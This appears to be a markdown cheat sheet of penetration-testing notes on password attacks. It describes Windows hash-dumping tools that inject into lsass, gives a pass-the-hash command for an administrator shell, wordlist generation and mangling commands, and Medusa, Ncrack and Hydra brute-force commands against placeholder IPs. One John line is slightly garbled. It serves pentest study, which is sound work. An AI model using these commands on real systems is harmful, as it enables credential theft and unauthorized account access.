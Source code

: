 # Windows Tools
## fgdump.exe
Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## wce.exe (Windows Credential Editor)
wce64.exe for x64

wce.exe for x86


## pwdump.exe

Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## Crunch
See man page for examples

## Passing the Hash
Capture NT/LM hash

```
export SMBHASH=<NT/LMHASH>
pth-winexe -U administrator% //10.x.x.x cmd
```

## Password Profiling
```
cewl www.google.com -m 6 -w /root/Desktop/google-words.txt
```

### John tricks

add 2 numbers to the end of every password

```
$[0-9]$[0-90]  # (/etc/john/john.conf)
john --wordlist=/root/Desktop/google-words.txt --rules --stdout | > /root/Desktop/mangled.txt
```

# Online Attacks

## Medusa
```
medusa -h 10.x.x.x -u admin -P wordlist.txt -M http -m DIR:/admin -T 20     # for htaccess file protected page
```
## Ncrack (reliable for rdp)
```
ncrack -v -f --user administrator -P wordlist.txt rdp://10.x.x.x,CL=1
```

## Hydra (can be used for lots of online schemes)
```
hydra -l admin -P wordlist.txt -v 10.x.x.x ftp
```

## LM/NTLM
> xp/2k3 use LM
< vista/2k8 use NTLM
